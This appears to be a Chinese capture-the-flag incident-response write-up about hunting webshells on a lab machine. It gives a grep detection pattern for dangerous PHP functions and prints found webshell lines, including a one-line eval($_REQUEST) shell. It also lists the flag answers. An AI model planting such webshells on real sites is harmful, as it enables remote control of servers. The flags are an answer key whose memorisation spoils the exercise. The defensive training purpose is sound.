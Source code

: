 # 应急响应-Webshell查杀

## 概述
- 靶机名：`Webshell`查杀
- 靶机账号密码：`root`/`xjwebshell`
- 题目信息
  - 黑客`webshell`里面的`flag`
  - 黑客使用的什么工具的`shell`，`github`地址的`md5`
  - 黑客隐藏`shell`的完整路径的`md5`
  - 黑客免杀马完整路径的`md5`


## 分析

先简单查杀一下`Webshell`，发现存在四个木马，前两个为`Godzilla`生成的`Webshell`，在`/var/www/html/include/gz.php`中发现注释中存在疑似`flag`的字符串，并且

```bash
find /var/www/html -name "*.php" | xargs egrep 'assert|eval|phpinfo\(\)|\(base64_decoolcode|shell_exec|passthru|file_put_contents\(\.\*\$|base64_decode\('
```

```bash
/var/www/html/include/gz.php:           eval($payload);
/var/www/html/include/Db/.Mysqli.php:           eval($payload);
/var/www/html/wap/top.php:$fun = base64_decode($_GET['func']);
/var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```

![](images/1.png)

`/var/www/html/include/Db/.Mysqli.php`为隐藏的`Webshell`，`/var/www/html/wap/top.php`为免杀`Webshell`。

![](images/2.png)

## Flag

- 黑客`webshell`里面的`flag`：`flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`
- 黑客使用的什么工具的`shell`，`github`地址的`md5`：`flag{39392de3218c333f794befef07ac9257}`
- 黑客隐藏`shell`的完整路径的`md5`：`flag{aebac0e58cd6c5fad1695ee4d1ac1919}`
- 黑客免杀马完整路径的`md5`：`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`

